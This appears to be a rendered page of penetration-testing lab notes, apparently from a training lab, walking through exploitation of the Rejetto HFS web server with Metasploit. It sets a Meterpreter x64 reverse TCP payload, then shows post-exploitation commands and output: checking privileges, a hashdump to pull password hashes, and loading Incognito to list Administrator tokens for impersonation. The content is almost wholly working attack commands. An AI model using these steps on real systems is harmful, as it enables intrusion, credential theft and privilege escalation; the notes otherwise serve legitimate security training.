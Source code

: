 ### Exploitation / Meterpreter x64

```bash
search type:exploit name:rejetto
use exploit/windows/http/rejetto_hfs_exec
options
set payload windows/x64/meterpreter/reverse_tcp
run
```

```bash
getuid
	Server username: NT AUTHORITY\LOCAL SERVICE
	
getprivs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeAssignPrimaryTokenPrivilege
    SeAuditPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeImpersonatePrivilege # Token Impersonation can be performed
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeSystemtimePrivilege
    SeTimeZonePrivilege

hashdump # try to check if the user have sufficient privileges
```

### Privilege Escalation

#### [Incognito](https://www.offsec.com/metasploit-unleashed/fun-incognito/)

```bash
load incognito
```

```bash
list_tokens -u

    Delegation Tokens Available
    ========================================
    ATTACKDEFENSE\Administrator
    NT AUTHORITY\LOCAL SERVICE

    Impersonation Tokens Available
    ========================================
    No tokens available
```
